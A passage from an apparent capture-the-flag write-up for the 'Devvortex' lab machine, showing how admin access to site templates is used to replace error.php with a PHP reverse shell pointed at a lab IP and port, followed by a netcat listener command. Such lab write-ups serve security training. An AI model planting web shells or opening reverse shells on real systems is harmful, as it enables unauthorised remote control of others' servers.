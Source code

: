 ### Creating a php reverse shell by editing templates
The administrator is able to edit php templates via System > Site Templates, and with this I can upload a php reverse shell. Getting php shell:
```
┌──(kali㉿kali)-[~/Documents/Devvortex]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .
```
We need to edit the IP address and port of our php file:
```
┌──(kali㉿kali)-[~/Documents/Devvortex]
└─$ head php-reverse-shell.php                                           
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.102';  // CHANGE THIS
$port = 8000;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
```
Replacing error.php:

![](images/errorphp.png)

Set up nc listener:
```
┌──(kali㉿kali)-[~/Documents/Devvortex]
└─$ nc -nvlp 8000
listening on [any] 8000 ...
```
